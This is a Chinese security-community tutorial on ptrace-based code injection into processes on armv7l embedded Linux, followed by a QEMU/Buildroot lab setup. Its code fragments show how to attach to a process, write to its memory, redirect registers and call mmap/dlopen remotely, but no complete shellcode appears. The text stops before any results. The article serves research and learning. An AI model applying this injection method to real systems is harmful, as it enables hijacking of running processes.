# 基于armv7l架构的进程注入研究——使用ptrace注入shellcode-先知社区

> **来源**: https://xz.aliyun.com/news/16105  
> **文章ID**: 16105

---

## 一、前言

最近在做项目的时候遇到了对 Linux 下的 ARM 进程注入的需求，环境是一个 `armv7l` 架构的嵌入式系统，笔者并未能从搜索引擎中找到有文章是**仅针对这个架构做进程注入**

想直接找一些 ARM 架构的注入工具一把梭，例如 `libinject, PtraceInject`，但并不确定通用性。相关的文章也是少之又少，大部分还是对 `Android(Linux)` 的程序进行注入，虽然内核和架构都差不多，但是终归不能直接套用，所以猛猛调研了一下，最终也是成功实现了工程指标，现对一些相关的技术点进行总结和梳理

ARM 下的进程注入效果类似于 Windows 下的 dll 注入，但因为使用的是 Linux 内核，所以进程间是弱相互作用，Linux 下不存在 Windows 下类似于实现 `CreateRemoteThread` 的函数，可以在其他进程空间内创建线程来加载我们的 `.so` 文件，所以这种情况下我们所采用的方法就是利用 Linux 下的 `ptrace` 系统调用，它提供了跟踪另一个进程、控制该进程执行流的方法，并能获取和更改该进程的内存和寄存器的值，其主要用于**实现断点调试和系统调用跟踪**

`ptrace` 是一种广泛用于进程调试和控制的 **Linux 系统调用**，支持对目标进程的监视、修改和操作功能。攻击者可以通过 `ptrace` 来**注入恶意代码**，进而执行攻击行为

本文将详细分析 `ptrace` 在 ARM 架构中的注入方式和原理，并搭建实验环境验证其效果

## 二、ptrace 函数详解

### 2.1 ptrace 函数介绍

`ptrace` 函数的原型如下

```
long ptrace(enum __ptrace_request request, pid_t pid, void *addr, void *data);

```

分析 ptrace 函数的四个参数

* `request` 是一个枚举值，该参数指定了 `ptrace` 要执行的特定操作，其定义了对被跟踪进程执行的行为，例如附加到进程、获取或设置寄存器、读取或写入内存等
* `pid` 参数为远程进程（被跟踪进程）的 ID
* `addr` 参数通常用于指定被监控进程的**内存地址或寄存器编号**，对于不同的 request 值，addr 的含义不同
* `data` 参数是一个指针，用于传递额外的数据或接收 ptrace 操作的结果，在不同的 request 参数取值下有不同的含义

常见的 `request` 的参数如下，这些是在 `ptrace` 注入进程的过程中需要使用到的

1. `PTRACE_ATTACH`：此命令用于将调试器附加到指定的远程进程，使其进入暂停状态，以便进行调试
2. `PTRACE_DETACH`：此命令用于从之前使用 `PTRACE_ATTACH` 附加的远程进程中分离调试器，允许进程继续独立运行
3. `PTRACE_GETREGS`：此命令用于获取远程进程当前的寄存器状态，将寄存器的值复制到指定的结构体中
4. `PTRACE_SETREGS`：此命令用于设置远程进程的寄存器状态，将指定的结构体中的寄存器值复制到进程中
5. `PTRACE_CONT`：此命令用于使远程进程从暂停状态继续运行，可以指定一个信号参数来继续执行
6. `PTRACE_PEEKTEXT`：此命令用于从远程进程的指定内存地址读取一个 word 大小的数据，通常用于读取代码或数据
7. `PTRACE_POKETEXT`：此命令用于向远程进程的指定内存地址写入一个 word 大小的数据，通常用于修改代码或数据

更多信息可以通过 `/usr/arm-linux-gnueabihf/include` 下的 `asm/ptrace.h` 去了解，里面包含了 32 位 ARM 架构的 ptrace 定义

**重点来了！！！**注意编译32位的头文件不同于64位下的，32位的是 `asm/ptrace.h` ，而64位下的是 `sys/user.h` 或 `linux/user.h`，关于寄存器那个结构体也需要多注意，32位 ARM 架构下的是 `pt_regs` 结构体，64位下的是 `user_regs_struct`

### 2.2 ptrace 函数工作原理

`sys_ptrace` 函数完成了 ptrace 系统调用功能，其源码所在的位置为 `/linux/arch/arm/kernel/ptrace.c`



`sys_ptrace` 函数完成了 ptrace 系统调用功能，对它的执行流程进行总结绘制成流程图，如下



谈到系统调用，在 ARM 架构中，`SWI (Software Interrupt)` 指令被用来从用户态切换到内核态，执行系统调用。这个 `SWI` 指令相当于 x86 架构中的 `int 0x80` 指令，但是它并不使用中断向量号 0x80，而是通过 `SWI` 指令直接触发异常，这个异常会被内核捕获并处理成系统调用

1. **ptrace与系统调用的关系**： 在进程执行系统调用之前，Linux 内核会检查该进程是否被跟踪。如果进程被跟踪，内核将暂停进程的执行，并将控制权交给跟踪进程，以便其检查和修改被跟踪进程的状态，如寄存器的值
2. **跟踪进程的权限：**可以使用 `PTRACE_CONT` 恢复被跟踪进程的执行，也可以选择发送信号给被跟踪进程。这种机制允许跟踪进程在系统调用发生前后控制被跟踪进程的行为，从而实现详细的监控和调试。
3. **针对多线程进程的 ptrace 操作**： `ptrace`操作是针对单个线程的。如果子进程包含多个线程，父进程必须分别对每个线程调用 `ptrace` 以实现全面的跟踪。这是因为每个线程都有自己的执行上下文，包括独立的寄存器集和栈  
   为了确保整个进程的控制和调试，父进程需要对所有线程进行 `ptrace` 操作

### 2.3 ptrace 函数功能

`ptrace` 提供了一组 API，允许一个进程（调试器）对另一个进程（被调试进程）进行跟踪和控制。核心功能包括

1. **读取/写入内存**：可以操作目标进程的地址空间。
2. **修改寄存器**：改变目标进程的指令执行流程。
3. **挂起/恢复执行**：控制目标进程的运行状态。

#### attach 远程进程

ptrace 注入的第一个步骤是先附加到远程进程上，如下所示，附加到远程进程是通过调用 request 参数为 `PTRACE_ATTACH` 的 ptrace 函数，`pid` 为对应需要附加的远程进程的 ID，`addr` 参数和 `data` 参数为 NULL

```
ptrace(PTRACE_ATTACH, pid, NULL, NULL);

```

#### 子进程状态判断

在附加到远程进程后，远程进程的执行会被中断，此时父进程可以通过调用 `waitpid` 函数来判断子进程是否进入暂停状态

`waitpid` 的函数原型如下所示，其中当 options 参数为 `WUNTRACED`，表示若对应 pid 的远程进程进入暂停状态，则马上返回，可用于**等待远程进程进入暂停状态**

```
pid_t waitpid(pid_t pid,int * status,int options);

```

#### 读取和写入寄存器值

在通过 ptrace 改变远程进程执行流程前，需要先读取远程进程的所有寄存器值进行保存，在 detach 前向远程进程写入保存的原寄存器值用于恢复远程进程原有的执行流程

如下所示，为读取和写入寄存器值的 ptrace 调用，request 参数分别为 `PTRACE_GETREGS` 和 `PTRACE_SETREGS`，`pid` 为对应进程的 ID

```
ptrace(PTRACE_GETREGS, pid, NULL, regs);
ptrace(PTRACE_SETREGS, pid, NULL, regs);

```

#### regs 结构体

在 ARM 处理器下，ptrace 的 data 参数的 regs 为 `pt_regs` 结构的指针，从远程进程获取的寄存器值将存储到该结构体中

`pt_regs` 结构体定义如下

```
struct pt_regs {
 long uregs[18];
};

#define ARM_cpsr uregs[16]
#define ARM_pc uregs[15]
#define ARM_lr uregs[14]
#define ARM_sp uregs[13]
#define ARM_ip uregs[12]
#define ARM_fp uregs[11]
#define ARM_r10 uregs[10]
#define ARM_r9 uregs[9]
#define ARM_r8 uregs[8]
#define ARM_r7 uregs[7]
#define ARM_r6 uregs[6]
#define ARM_r5 uregs[5]
#define ARM_r4 uregs[4]
#define ARM_r3 uregs[3]
#define ARM_r2 uregs[2]
#define ARM_r1 uregs[1]
#define ARM_r0 uregs[0]
#define ARM_ORIG_r0 uregs[17]

```

比较重要的结构体成员如下

* ARM\_r0 成员被用于存储寄存器 r0 的值，一般来说函数调用后的返回值都会存储在这个寄存器中
* ARM\_pc 成员被用于存储当前程序的执行地址
* ARM\_sp 成员被用于存储当前栈顶指针
* ARM\_lr 成员被用于存储返回地址
* ARM\_cpsr 成员被用于存储状态寄存器的值

#### 内存读取和写入

调用 request 参数为 `PTRACE_PEEKTEXT` 的 ptrace 函数可以从远程进程的内存空间中读取数据，每次读入 `1 word` 大小的数据，即 `sizeof(long)`

如下，其中 addr 参数为需读取数据的远程进程内存地址，返回值为读取到的数据

```
ptrace(PTRACE_PEEKTEXT, pid, pCurSrcBuf, 0);

```

调用 request 参数为 `PTRACE_POKETEXT` 的 ptrace 函数可以将数据写入到远程进程的内存空间中，每次写入 `1 word` 大小的数据，即 `sizeof(long)`

如下，ptrace 函数的 addr 参数为要写入数据的远程进程内存地址，data 参数为要写入的数据

```
ptrace(PTRACE_POKETEXT, pid, pCurDestBuf, lTmpBuf) ;

```

写入数据时需要注意，若写入数据长度不是一个字大小的倍数，要记得先保存原地址处的高位数据，否则会被置 null

代码如下，首先通过 request 参数为 `PTRACE_PEEKTEXT` 的 ptrace 函数读取原内存中的一个字大小的数据，然后将要写入的数据复制到读取出的数据的低位，然后调用 ptrace 函数将修改后的数据写入远程进程的内存地址处

```
lTmpBuf = ptrace(PTRACE_PEEKTEXT, pid, pCurDestBuf, NULL); 
memcpy((void *)(&lTmpBuf), pCurSrcBuf, nRemainCount);
ptrace(PTRACE_POKETEXT, pid, pCurDestBuf, lTmpBuf);

```

#### 远程调用函数

在 ARM 处理器中，函数调用的前四个参数通过 `R0~R3` 寄存器来传递，剩余参数按从右到左的顺序压入栈中进行传递

如代码所示，在远程调用函数前，需要先判断函数调用的参数个数，若小于4个，则将参数按顺序分别写入 `R0~R3` 寄存器中；若大于4个，则首先调整 `SP` 寄存器在栈中分配空间，然后通过调用 ptrace 函数将剩余参数写入到栈中

```
for (i = 0; i < num_params && i < 4; i ++) {    
     regs->uregs[i] = parameters[i];    
}    

if (i < num_params) {
    regs->ARM_sp -= (num_params - i) * sizeof(long) ;
    if (ptrace_writedata(pid, (void *)regs->ARM_sp, (uint8_t *)parameters[i], (num_params - i) * sizeof(long))  == -1)
        return -1;
}

```

在写入函数的参数后，修改进程的PC寄存器为需要执行的函数地址

> 这里有一点需要注意，在 ARM 架构下有 ARM 和 Thumb 两种指令，因此在调用函数前需要判断函数被解析成的是哪种指令，如代码所示，通过地址的最低位是否为1来判断调用地址处指令为 ARM 还是 Thumb
>
> 若为 Thumb 指令，则需要将最低位重新设置为0，并且将 CPSR 寄存器的 T 标志位置位
>
> 若为 ARM 指令，则将 CPSR 寄存器的 T 标志位复位

```
if (regs->ARM_pc & 1) {                      /* thumb */
    regs->ARM_pc &= (~1u);
    regs->ARM_cpsr |= CPSR_T_MASK;
} else {                                    /* arm */
    regs->ARM_cpsr &= ~CPSR_T_MASK;
}

```

在使远程进程恢复运行前，还需要设置远程进程的 `LR` 寄存器值为0，并且在在本地进程调用 options 参数为 `WUNTRACED` 的 `waitpid` 函数等待远程进程重新进入暂停状态

远程进程的函数调用结束后，会跳转到 LR 寄存器存储的地址处，但由于 LR 寄存器被设置为0，会导致远程进程执行出错，此时进程会进入暂停状态，本地进程等待结束，通过读取远程进程的 R0 寄存器可以获取远程函数调用的返回结果，以上就是一次完整地调用远程函数的过程

#### 远程调用函数加载被注入模块\*

在 ptrace 注入流程中需要多次调用函数，除了调用被注入模块的函数外，还需要以下步骤

1. 调用 `mmap` 函数在远程进程地址空间内分配内存
2. 调用 `dlopen` 函数来远程加载被注入模块
3. 调用 `dlsym` 函数来获取被注入模块对应函数的地址
4. 调用 `dlclose` 函数来关闭加载的模块

上述函数的原型如下所示

```
void* mmap(void* start, size_t length, int prot, int flags, int fd, off_t offset);
void* dlopen(const char* pathname, int mode);
void* dlsym(void* handle, const char* symbol);
int dlclose(void* handle);

```

在调用函数前，首先需要获得这些函数在远程进程中的地址

`mmap` 函数在 `/system/lib/libc.so` 模块中

`dlopen, dlsym, dlclose` 函数在 `/system/bin/linker` 模块中

读取 `/proc/pid/maps` 即可获取到系统模块在本地进程和远程进程的加载基地址。若要获取远程进程内存空间中 `mmap` 等函数的虚拟地址，可通过计算本地进程中 `mmap` 等函数相对于模块的地址偏移，然后使用 “偏移+远程进程对应模块的基地址” 的方式计算出远程进程内存空间中相应函数的虚拟地址

#### 恢复寄存器值

`oldregs` 结构体存储 ptrace 前的程序状态

```
ptrace(PTRACE_SETREGS, traced_process, NULL, &oldregs)

```

#### detach 远程进程

ptrace 注入的最后一个步要记得从远程进程脱离，detach 后被注入进程将继续运行

如下，通过 request 参数为 `PTRACE_DETACH` 的 ptrace 函数执行从远程进程 detach

```
ptrace(PTRACE_DETACH, pid, NULL, 0);

```

### 2.4 ptrace 函数在ARM架构中的使用

在 ARM 架构上，`ptrace`可以操作 ARM 和 Thumb 指令集，并访问关键寄存器（如`PC`、`SP`等），所以能够利用 `ptrace` 灵活地注入并执行恶意代码。

## 三、ptrace 注入分析

### 3.1 ptrace 注入原理与方法

ptrace 注入的目的是为了将外部的模块注入到目标进程中，然后去执行注入的代码

目前有两种实现 ptrace 注入模块到远程进程的方法主要有两种

* **使用 ptrace 将 shellcode 注入到远程进程的内存空间中，然后通过执行 shellcode 加载远程进程模块。**本文主要讲述的是这种方法
* 直接远程调用 `dlopen/dlsym` 等函数加载被注入模块并执行指定的代码，下面为 ptrace 注入远程进程的整体流程，其中有一些细节需要注意，稍有不慎就会造成远程进程崩溃

  1. `attach` 到远程进程
  2. 保存寄存器环境
  3. 远程调用 `mmap` 函数分配内存空间
  4. 向远程进程内存空间写入加载模块名和调用函数
  5. 远程调用 `dlopen` 函数打开注入模块
  6. 远程调用 `dlsym` 函数获取需要调用函数地址
  7. 远程调用被注入模块的函数
  8. 恢复寄存器环境
  9. 从远程进程 `detach`

这两种方法的实现方式稍有差异，但总体来说都是通过 ptrace 函数在远程进程空间执行代码

### 3.2 ptrace 注入 shellcode 基本流程分析

* **代码注入**，将 shellcode 写入目标进程内存，然后跳转执行
  1. **附加目标进程**：使用 `PTRACE_ATTACH` 挂起目标进程
  2. **读取寄存器和内存**：获取目标进程的当前上下文
  3. **注入恶意代码**：将恶意代码写入目标进程内存
  4. **修改执行路径**：更新目标进程的 `PC` 寄存器，跳转到恶意代码执行
  5. **恢复目标进程**：释放目标进程并恢复其正常执行

* **库注入**，通过注入代码加载恶意共享库

## 四、仿真环境搭建与注入实践

### 4.1 ARMv7l

做项目时，在目标路由器系统的命令行执行 `uname -a`，输出如下

```
Linux axis-b8a44f50bed8 4.19.217-axis8 #1 SMP PREEMPT Wed Sep 28 11:08:01 UTC 2022 armv7l GNU/Linux
```



所以这是一个基于 `ARMv7` 架构的32位系统，且为小端字节序，需要仿真一个 `armv7l` 的测试环境

找 GPT 补充了一点小知识

> ARMel (ARM)：支持不带硬件 FPU（浮点单元）的旧 32 位 ARM 处理器，尤其是在 openRD、Versatile 和即插即用计算机等平台上；ARMeb 是其对应的大端序
>
> 一些老旧的或者特定的 ARM 系统可能使用大端模式，而大多数现代 ARM 系统则使用小端模式
>
> * ARMhf：支持硬件浮点运算的 ARM 架构
> * ARM64 (AARCH64)：适用于至少实现 ARMv8 架构的 64 位处理器
>
> 在 ARM 架构中，`ARMel` 通常指的是 ARM 处理器的一种早期的32位架构，特别是在没有硬件浮点单元 (Floating Point Unit, FPU) 的设备上；`ARMhf` 则是指 ARM 的另一种架构，它支持硬件浮点单元，并且是 `ARMv7` 架构的一部分
>
> `ARM64` 或 `AArch64` 是指 ARM 的64位架构，它是 `ARMv8` 的一部分。
>
> **ARM64、ARMhf 和 ARMel 仅支持 little-endian 系统，即小端模式**

### 4.2 ubuntu18.04

使用 VMware 配置一台 `ubuntu18.04` 的虚拟机，作为实验环境，下载链接如下

<http://mirrors.ustc.edu.cn/ubuntu-releases/18.04/ubuntu-18.04.6-desktop-amd64.iso>

### 4.3 Buildroot

下载 Buildroot，将下载好的压缩包放入虚拟机中，之后解压压缩包

<https://buildroot.org/downloads/buildroot-2022.02.6.tar.gz>

```
tar xzf buildroot-2022.02.6.tar.gz

```

配置 `qemu_arm_vexpress_defconfig` 后进行编译

```
cd buildroot-2022.02.6/
ls configs/qemu_arm_ve*
make qemu_arm_vexpress_defconfig
make

```



### 4.4 QEMU

下载 qemu

<https://download.qemu.org/qemu-6.2.0.tar.bz2>

将上面下载的文件拖入虚拟机中，解压缩

```
tar xjf qemu-6.2.0.tar.bz2

```

下载相关依赖包

```
sudo apt-get install ninja-build
sudo apt-get install autoconf
sudo apt-get install libpixman-1-dev
sudo apt-get install libpixman-1-0
sudo apt-get install libsdl1.2-dev
sudo apt-get install libtool
sudo apt-get install libglib2.0-dev

```

进入qemu文件，创建 build 文件后，进行相关配置和编译安装

```
cd qemu-6.2.0/
mkdir build
cd build/
../configure --target-list=arm-softmmu --audio-drv-list=
make -j8
make install

```



### 4.5 QEMU 网桥搭建

接下来是 qemu 网桥搭建，搭建好后，本地虚拟机可以与 qemu 仿真的系统进行网络通信

```
sudo su
apt-get install bridge-utils    # 安装网桥工具
brctl addbr br0
brctl addif br0 ens33
brctl stp br0 on
ifconfig ens33 0
dhclient br0
route

```

运行 qemu，增加 `-net nic -net tap,ifname=tap1` 在命令里，`buildroot-2022.02.6` 的路径要根据实际情况替换，`rootfs.ext2` 相当于类似 `vmdx` 存储文件

完整命令如下

```
sudo qemu-system-arm -M vexpress-a9 -m 512M -kernel /home/arminject/Desktop/test_inject/buildroot-2022.02.6/output/images/zImage -dtb /home/arminject/Desktop/test_inject/buildroot-2022.02.6/output/images/vexpress-v2p-ca9.dtb -nographic -append "root=/dev/mmcblk0 console=ttyAMA0" -sd /home/arminject/Desktop/test_inject/buildroot-2022.02.6/output/images/rootfs.ext2 -net nic -net tap,ifname=tap1

```

出现报错

```
arminject@arminject-virtual-machine:~/Desktop/test_inject/buildroot-2022.02.6$ sudo qemu-system-arm -M vexpress-a9 -m 512M -kernel /home/arminject/Desktop/test_inject/buildroot-2022.02.6/output/images/zImage -dtb /home/arminject/Desktop/test_inject/buildroot-2022.02.6/output/images/vexpress-v2p-ca9.dtb -nographic -append "root=/dev/mmcblk0 console=ttyAMA0" -sd /home/arminject/Desktop/test_inject/buildroot-2022.02.6/output/images/rootfs.ext2 -net nic -net tap,ifname=tap1
WARNING: Image format was not specified for '/home/arminject/Desktop/test_inject/buildroot-2022.02.6/output/images/rootfs.ext2' and probing guessed raw.
         Automatically detecting the format is dangerous for raw images, write operations on block 0 will be restricted.
         Specify the 'raw' format explicitly to remove the restrictions.
qemu-system-arm: -net tap,ifname=tap1: network script /usr/local/bin/../etc/qemu-ifup failed with status 256

```

解决方法参考 [qemu-system-arm仿真vexpress-a9踩坑记](https://www.jianshu.com/p/91baa4d140a2)，修改 `/usr/local/bin/../etc/qemu-ifup` 文件

```
#!/bin/sh
echo "net up"
switch=br0
ifconfig $1 up
#ip link set $1 up
brctl addif ${switch} $1

```

给文件赋权限

```
sudo chmod 755 qemu-ifup

```

任何重新执行一遍上述 `qemu-system-arm`，进去仿真系统里面之后配置 ip

```
ifconfig eth0 192.168.184.130 netmask 255.255.255.0 up

```

网络通信建立成功



这样 qemu 仿真的 arm 虚拟机就能使用 wget 从有 pyhon 的机子里下载文件了

server

```
sudo python3 -m http.server 80

```

client

```
wget http://server_ip/path_to_file

```



### 4.6 系统仿真

上面的一套流程下来，ARM 架构环境仿真成功



## 五、注入实践

### 5.1 交叉编译工具链

我们需要在 `Ubuntu18.04` 虚拟机上交叉编译出 `armv7l` 架构可用的程序，首先需要下载交叉编译工具链，命令如下

```
sudo apt install gcc-arm-linux-gnueabihf

```

但是会显示缺少相关头文件，因为我们毕竟是需要在 x86 架构下编译 arm 的程序，自然会缺少不少依赖，解决方法如下

linux 内核源码下载地址 <https://www.kernel.org/pub/linux/kernel/>

在 Ubuntu 中可以安装 `linux-libc-dev-armhf-cross` 包，它包含了 “为 ARM 架构预编译” 的内核头文件

```
sudo apt install linux-libc-dev-armhf-cross

```

编译命令如下

```
arm-linux-gnueabihf-gcc -static test.c -o test -I/usr/arm-linux-gnueabihf/include

```

测试源码如下，简单测下 ptrace 相关功能和编译出来的程序能不能跑，没啥问题

```
#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>
#include <asm/ptrace.h>             // 包含32位ARM架构的ptrace定义

int main()
{   pid_t child;
    struct pt_regs regs;            // 使用32位ARM架构的pt_regs结构体
    unsigned long orig_r7;          // 获取R7寄存器值，它通常用于存储系统调用号
    child = fork();
    if(child == 0) {
        ptrace(PTRACE_TRACEME, 0, NULL, NULL);
        execl("/bin/ls", "whoami", NULL);
    }
    else {
        wait(NULL);
        ptrace(PTRACE_GETREGS, child, NULL, &regs);     // 获取系统调用号，需要使用掩码来获取r7的低16位
        orig_r7 = regs.ARM_r7;      // 获取系统调用号
        printf("[!] The child made a system call number %lu\n", orig_r7);
        ptrace(PTRACE_CONT, child, NULL, NULL);
    }
    return 0;
}

```

效果如下

